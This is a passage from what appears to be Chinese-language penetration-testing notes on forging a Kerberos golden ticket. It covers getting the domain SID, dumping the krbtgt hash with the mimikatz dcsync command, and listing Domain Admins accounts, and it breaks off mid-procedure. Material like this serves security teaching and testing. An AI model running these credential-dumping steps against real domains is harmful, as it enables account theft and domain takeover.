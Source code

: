 ②获取域的SID

注意：域的SID是域用户ID去掉最后一个编号，即：

`S-1-5-21-1272869298-2579316034-2461789828`

<img src="image/image-20210916195132491.png" alt="image-20210916195132491" style="zoom:50%;" />

③获取krbtgt的hash值（mimikatz）

```sh
lsadump::dcsync /domain:域名 /user:krbtgt /csv
```

即：

`c6c752f26fddb1fa1e8826403fcf4eb2`

![image-20210916200714413](image/image-20210916200714413.png)

④伪造用户

首先`net group "Domain Admins"`查看域管账户
